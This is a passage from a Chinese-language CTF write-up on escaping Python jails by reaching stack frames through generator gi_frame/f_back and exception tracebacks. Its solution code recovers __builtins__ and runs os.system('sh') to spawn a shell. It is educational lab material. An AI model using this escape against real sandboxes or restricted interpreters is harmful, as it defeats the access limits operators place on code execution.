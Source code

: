 注意：栈帧是一个对象，而其 `f_globals` 才是字典。

###### 栈帧来源

正常情况下，我们使用 sys 模块来获得某些栈帧。但在 CTF 情景下，我们一般使用生成器和异常的相关属性来获取栈帧。

生成器栈帧逃逸同样可以看[上述博客](https://www.cnblogs.com/gaorenyusi/p/18242719)，这里给个例子：

```python
def f():
    global x, frame
    frame = x.gi_frame
    # 生成器未运行或运行结束的时候 x.gi_frame 是 none，但是运行和暂停时不是
    
    frame = frame.f_back # 一定要在这里访问 f_back 拿到生成器调用者帧
    # 不然运行到 yield 处生成器调用者帧就被置空了，会拿到 none
    
    yield "暂停点1" # 生成器运行到此处暂停，下次从这里继续运行
    yield "暂停点2"
x = f()
x.send(None) # 启动生成器
# 等价于 next(x)，但是 next 是内置函数，有些环境会限制
raise Exception(frame.f_globals)  # 成功抛出调用环境的全局变量
```

而异常栈帧逃逸我也给个例子，具体情况自己查询相关内容；

```python
try:
    raise Exception()
except Exception as e:
    tb = e.__traceback__
    frame = tb.tb_frame
```

###### 解题

```python
def f():
    global x, frame
    frame = x.gi_frame
    while frame.f_back: # 向上回溯到最外层
        frame = frame.f_back 
    
    yield
x = f()
x.send(None)

builtins = frame.f_globals['__builtins__']
getattr = builtins.getattr # 恢复 getattr 方法，从而避免直接访问 __import__ 属性
getattr(builtins, '__import__')('os').system('sh')
```

##### Pyjail 5

用 AST 禁止了所有用 `.` 的属性访问。
